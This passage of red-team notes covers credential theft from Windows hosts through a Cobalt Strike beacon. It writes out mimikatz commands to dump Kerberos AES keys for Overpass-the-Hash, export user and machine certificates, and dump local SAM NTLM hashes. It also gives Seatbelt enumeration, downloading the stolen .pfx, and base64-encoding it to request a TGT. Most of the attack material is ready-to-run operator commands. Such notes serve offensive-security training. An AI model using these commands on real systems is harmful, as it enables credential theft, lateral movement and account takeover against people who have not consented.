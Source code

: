 Exists a mimikatz module that dumps kerberos encryption keys. Since most of the windows services choose to use kerberos over NTLM.

```
beacon> mimikatz sekurlsa::ekeys
```

We are interested in `aes256_hmac` and `aes128_hmac` if is available. It will be used during **Overpass-The-Hash** technique.

# Certificates

To enumerate certificates use `Seatbelt`.

```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates
```

> **Note**: Ensure that the certificate is **used for authentication**.

We can dump certificates with mimikatz.

* For users:

```
beacon> mimikatz crypto::certificates /export
```

* For machines:

```
beacon> mimikatz !crypto::certificates /systemstore:local_machine /export
```

> **NOTE**: Mimikatz always export certificates with `mimikatz` as password.

Download the file and sync files from cobalt strike to your local machine.

```
beacon> download C:\Users\user\CURRENT_USER_My_0_User Example.pfx
```

> **Note** : Go to `View -> Downloads` to sync files.

Encode in base64 the `.pfx` file.

```
cat CURRENT_USER_My_0_User\ Example.pfx | base64 -w0
```
And finally use it to request a TGT.


# Security Account Manager

The Security Account Manager (SAM) database holds the NTLM hashes of local accounts.

It's common that a local administrator use the same password across the entire environment.

```
beacon> mimikatz lsadump::sam
```
